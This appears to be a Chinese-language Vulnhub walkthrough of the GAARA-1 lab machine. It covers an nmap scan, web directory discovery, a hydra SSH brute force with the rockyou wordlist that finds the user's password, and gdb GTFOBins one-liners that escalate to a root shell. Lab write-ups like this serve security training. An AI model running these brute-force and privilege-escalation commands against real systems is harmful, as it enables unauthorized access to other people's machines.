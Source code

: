```yaml
---

title: Vulnhub	629 GAARA-1
date: 2020-12-13
---
```

考点：hydra,gdb

靶机链接：<https://www.vulnhub.com/entry/gaara-1,629/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| GAARA-1    | 10.0.2.31 |

## 初步打点

### 端口扫描


```bash
$ export rip=10.0.2.31
$ sudo nmap -v  -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:a3:6f:64:03:33:1e:76:f8:e4:98:fe:be:e9:8e:58 (RSA)
|   256 6c:0e:b5:00:e7:42:44:48:65:ef:fe:d7:7c:e6:64:d5 (ECDSA)
|_  256 b7:51:f2:f9:85:57:66:a8:65:54:2e:05:f9:40:d2:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.38 (Debian)

```

### WEB测试

![1](https://www.vulnhub.cn/walkthrough/629/1.webp)

获得目录`/Cryoserver`

![2](https://www.vulnhub.cn/walkthrough/629/2.webp)

获得三个目录，分别访问找信息

![3](https://www.vulnhub.cn/walkthrough/629/3.webp)

发现特殊字符串

![4](https://www.vulnhub.cn/walkthrough/629/4.webp)

上cyberchef试了试base58解密得到 `gaara:ismyname` ，然而ssh直接登录失败。

## 获得权限

暴力破解用户`gaara`的密码

```bash
$ hydra -l gaara -P /usr/share/wordlists/rockyou.txt -f 10.0.2.31 ssh -t 50
[DATA] attacking ssh://10.0.2.31:22/
[22][ssh] host: 10.0.2.31   login: gaara   password: iloveyou2
[STATUS] attack finished for 10.0.2.31 (valid pair found)
```

![5](https://www.vulnhub.cn/walkthrough/629/5.webp)

## 提权

上`linpeas.sh`

![6](https://www.vulnhub.cn/walkthrough/629/6.webp)

果断上[gtfobins](https://gtfobins.github.io/gtfobins/gdb/) 构建了两条python利用链

```bash
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit

gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit

```

![7](https://www.vulnhub.cn/walkthrough/629/7.webp)
